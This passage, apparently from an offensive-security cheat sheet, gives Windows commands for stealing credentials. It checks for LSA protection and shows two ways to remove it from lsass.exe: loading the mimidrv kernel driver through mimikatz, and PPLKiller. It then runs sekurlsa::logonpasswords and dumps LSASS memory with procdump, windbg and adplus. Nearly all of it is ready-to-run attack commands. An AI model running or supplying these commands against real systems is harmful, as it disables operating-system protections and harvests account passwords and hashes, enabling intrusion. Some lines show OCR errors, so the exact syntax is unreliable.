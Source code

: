 ```
PS C:\> Get-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Lsa -Name "RunAsPPL"

RunAsPL     : 1
```

- Method 1:

```
mimikatz # !+
```

Create and start a `mimidrv` service

```
C:\> sc create mimidrv binpath= C:\path\to\mimidrv.sys type= kernel start= demand

C:\> sc start mimidrv
```

```
mimikatz # !processprotect /process:lsass.exe /remove

mimikatz # privilege::debug

mimikatz # sekurlsa::logonpasswords

mimikatz # !processprotect /process:lsass.exe

mimikatz # !-
```

- Method 2:

```
C:\> PPLKiller.exe /installDriver

C:\> PPLKiller.exe /disableLSAProtection

C:\> PPLKiller.exe /uninstallDriver
```

### 3.5 - Dump LSASS Process

Check if the LSASS process is present

```
C:\> tasklist.exe /fi "imagename eq lsass.exe"

PS C:\> get-process lsass
```

#### 3.5.1 - Dump the process memory

- **Method 1:** Use the legit sysinternal tool

```
C:\> procdump.exe /accepteula -ma <lsass_pid> hashmem.dmp

C:\> procdump.exe /accepteula -ma lsass.exe hashmem.dmp

C:\> windbg.exe -p .dump /ma c:\path\to\hashmem.dmp .detach .q

C:\> adplus.exe -hang -pn lsass.exe -o C:\Windows\Temp\output\ -quiet
```
